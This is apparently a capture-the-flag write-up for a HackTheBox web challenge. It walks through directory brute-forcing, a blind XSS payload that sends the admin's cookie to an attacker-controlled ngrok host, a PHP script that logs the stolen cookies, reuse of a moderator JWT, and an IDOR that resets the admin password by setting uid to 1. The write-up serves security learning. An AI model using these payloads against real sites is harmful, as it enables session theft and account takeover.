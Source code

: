 ## Description
"The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?"

Since this is a web challenge so first thing I did is bruteforcing the directories with dirsearch
![dirs](https://user-images.githubusercontent.com/43896992/169715190-b00eb4de-88c4-4694-9639-41721f1d927b.png)

in the login page the default credentials doesn't work, it gives me "INVALID USERNAME OR PASSWORD!" message.

I found a ticket submitting page in the index of the site for reporting issues to the admin
![index](https://user-images.githubusercontent.com/43896992/169715342-651fabfc-2db9-4cfe-bc72-51aa8fd8e5e0.png)

when I type anything it gives me a message says an admin will review my ticket, but unfortunately it doesn't give me any feedback.

first thing that came into my head is it vulnerable to blind xss? can I seal the admin's cookies?, so I started to build the environment for blind xss exploitation to forward the result to my own server.

I made a get.php file that saves the cookies into a jar.txt file
```
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen('jar.txt' , 'a');
fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```
then I made a local php server on port 80 with ```php -S localhost:80``` and I tunneled it out to receive the connection from the vulnerable site with ngrok.

I crafted a blind xss payload ```<script> var i = new Image(); i.src="http://MYSITE.ngrok.io/get.php?q="+document.cookie; </script>```
and I acctually recieved a connection on my server

![ngrok](https://user-images.githubusercontent.com/43896992/169716208-7b2ae392-77a7-47c1-b570-8f41fd3bb0be.png)


The jar.txt file wasn't really useful because I already got the admin's cookies from the request but at least it saved it in a file for me
![jwt](https://user-images.githubusercontent.com/43896992/169716399-46748c7f-0fc3-4780-aa88-2c88df50ed0a.png)

**Cookies:**```session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4NzEzMjB9.iTg4YroMbHGEaFrDZH8k5t4m9hHPN2nEkRQW31HMrvs```

it's a jwt, so I tried to decode it in [jwt.io](https://jwt.io) and it turned out a moderator's cookie
![jwt io](https://user-images.githubusercontent.com/43896992/169716515-b5057b23-3770-4764-8359-10f67058d88a.png)

I injected it and now I'm a moderator
![mod](https://user-images.githubusercontent.com/43896992/169717290-e723c934-478f-4f6b-b7aa-b92819509a7b.png)

but there's nothing useful in the page, I'm not fully privileged; so, I need to escalate my user to admin not just a moderator.

Since this is another user with another session I thought I may now access the 302 pages and this attempt succeeded and it's now 200, I tried to access ```/settings``` and I found a password changing page, now I can grab the endpoint which is responsible for password changing.
![pass](https://user-images.githubusercontent.com/43896992/169717505-081da6de-4ad2-4800-bf10-2e75b1df838e.png)
![modpass](https://user-images.githubusercontent.com/43896992/169717566-408439ef-c4fb-4542-8fed-1e0be60d0671.png)

the endpoint is ```/api/users/update``` with POST method.

I tried to change the jwt ```username``` value to ```admin``` and use it as a cookie but it didn't work
![Ajwt](https://user-images.githubusercontent.com/43896992/169718032-ec4136af-3ede-4255-9404-4ff587bbdf96.png)

then I tried to use it in the paswword resetting request and it didn't work too, it was a poor idea in the first place..
![Fadmin](https://user-images.githubusercontent.com/43896992/169718195-cab5bb47-ced1-4786-b000-86a708c54d55.png)

I found a parameter ```uid``` that have value ```100```.
mostly in web apps the admin's uid is 1 or 0 so I thought about idor attack, and if it wasn't 1,0 I would bruteforce it with the intruder until I find the admin's uid

So I changed the value of the ```uid``` to ```1``` and it fortunately worked
![adminspass](https://user-images.githubusercontent.com/43896992/169717743-9496fcfc-458d-4e6d-b8a2-768186821608.png)

Then I logged with the new password in the ```/login``` page and I finally got the flag
<sub>it was in the ```/admin``` page but it was unaccessable unless you're the admin</sub>
![flag](https://user-images.githubusercontent.com/43896992/169717857-c7672396-c9ed-48db-bb52-d2cf2062d701.png)
### ```HTB{x55_4nd_id0rs_ar3_fun!!}```
